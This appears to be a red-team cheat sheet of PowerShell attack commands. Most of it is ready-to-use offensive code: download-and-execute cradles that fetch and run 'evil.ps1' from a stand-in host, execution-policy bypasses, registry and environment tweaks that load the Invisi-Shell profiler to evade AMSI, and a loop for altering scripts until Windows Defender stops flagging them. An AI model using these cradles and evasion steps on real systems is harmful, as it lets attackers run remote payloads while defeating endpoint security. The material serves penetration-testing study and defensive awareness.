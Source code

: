 ### Powershell Scripts/Modules


Import Script or Module :heavy_check_mark:
```
Import-Module C:\path\to\script.ps1
```

Find all commands in module
```
Get-Command -Module <modulename>
```

Download & Execute Cradle :heavy_check_mark:
```
iex (New-Object Net.WebClient) .DownloadString('https://webservers/payload.ps1')
```

??
```
$ie=New-Object -ComObjectInternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
```
$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText
```
```
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```




### Powershell Detection
- System-wide transcription
- Script Block Logging
- AMSI (AntMalware Scan Interface)
- CLM (Constrained Language Mode)
 - Integration with Applocker & WDAC (Device Guard)

#### Bypasses
##### Execution Policy
:heavy_check_mark:
```
powershell -ExecutionPolicy bypass
```
```
powershell -c <cmd>
```
:heavy_check_mark:
```
powershell -encodedcommand
```
```
$env:PSExecutionPolicyPreference="bypass"
```

#### Security
##### AMSI

[Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) :sparkles:

###### **with admin privileges**
```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
set COR_PROFILER_PATH=%~dp0InvisiShellProfiler.dll

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
set COR_PROFILER_PATH=
```

###### **with non-admin privileges**
```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}

REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InvisiShellProfiler.dll" /f

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
```

:broom: can be cleaned up with an *exit* command

#### AV Signatures - Windows Defender
[AMSITrigger](https://github.com/RythmStick/AMSITrigger)
This application will go through the script and indicate where it is being detected
```
AmsiTrigger_x64.exe -i C:\path\*.ps1
```
1. Scan using AMSITrigger
2. Modify the detected code
3. Rescan
4. Repeat the steps 2 & 3 till we get a result as “AMSI_RESULT_NOT_DETECTED” or “Blank”

Further steps can be taken to full obfuscate scripts with [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
